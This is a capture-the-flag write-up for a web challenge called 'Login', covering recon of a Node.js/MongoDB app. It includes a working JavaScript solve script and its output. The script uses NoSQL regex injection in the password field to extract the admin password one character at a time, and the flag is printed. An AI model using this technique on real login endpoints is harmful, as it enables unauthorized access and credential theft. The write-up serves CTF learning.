








# Challenge name : Login
### Category : Web
### Authors: [Apoorva Pendse](https://github.com/apoorvapendse) and Gourav Suram


### Description

> Our admin belives his app is secure, please prove him wrong.


# Writeup
Author :[ Apoova Pendse](https://github.com/apoorvapendse)

## Recon 

Let's run ```nmap``` to find what we can:


##### So, its a node.js application, noice..

Let's see the website


nothing fancy...

### /index.js


Basic express setup,hmm

### /database/db.js



**Its clear that he's using MongoDB for the database by the mongoose import**


### /router/router.js


### /controllers/login.js


*It will be hard to do some NoSQL injection, because database is not queried directly - but with some mongoose models.*

*For now let's remember that application uses Schema.find method to search in a user collection, giving username and password properties that are received in the POST request body.*

*Also, worth remembering that API returns {logged: int, message: string} JSON.*


### /model/User.js

Boilerplate ```Users``` model from ```Users``` collection registration.


This can be exploited using regex query since login checks username and password.

**Reference:** https://www.mongodb.com/docs/manual/reference/operator/query/regex/

As the description says admin, lemee try with username as admin



The username is definitely ```admin```

So now all i have to do is figure characters step by step using the wildcard 

### solve.js
```javascript
const url = "https://login.ctf.teamquark.com/api/login";
let flag = "";
const allCharacters =
  "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^()@_{}";

async function solve() {
  while (true) {
    for (let i = 0; i < allCharacters.length; i++) {
      let currentChar = allCharacters[i];
      const passwordQuery = `^${flag}${currentChar}.*$`;
      const apiBody = {
        username: "admin",
        password: { "$regex": passwordQuery }
      };

      const response = await fetch(url, {
        method: "POST",
        headers: {
          "Content-type": "application/json",
        },
        body: JSON.stringify(apiBody),
      });

      const data = await response.json();
      if (data.logged == 1) {
        flag += currentChar;
        console.log(flag);
        if (currentChar === "}") 
        {
            console.log("Flag found:", flag);
            return;
        }

      }
    }
  }
}

solve();

```

This will append and test response for every char until we get the flag 

output:
```bash
$ node sol.js
q
qu
qua
quar
quark
quarkC
quarkCT
quarkCTF
quarkCTF{
quarkCTF{n
quarkCTF{n0
quarkCTF{n0s
quarkCTF{n0sq
quarkCTF{n0sqL
quarkCTF{n0sqL_
quarkCTF{n0sqL_s
quarkCTF{n0sqL_su
quarkCTF{n0sqL_sur
quarkCTF{n0sqL_sur3
quarkCTF{n0sqL_sur3_
quarkCTF{n0sqL_sur3_i
quarkCTF{n0sqL_sur3_i5
quarkCTF{n0sqL_sur3_i5_
quarkCTF{n0sqL_sur3_i5_f
quarkCTF{n0sqL_sur3_i5_fu
quarkCTF{n0sqL_sur3_i5_fun
quarkCTF{n0sqL_sur3_i5_fun}
Flag found: quarkCTF{n0sqL_sur3_i5_fun}
```

And There We Have The Flag!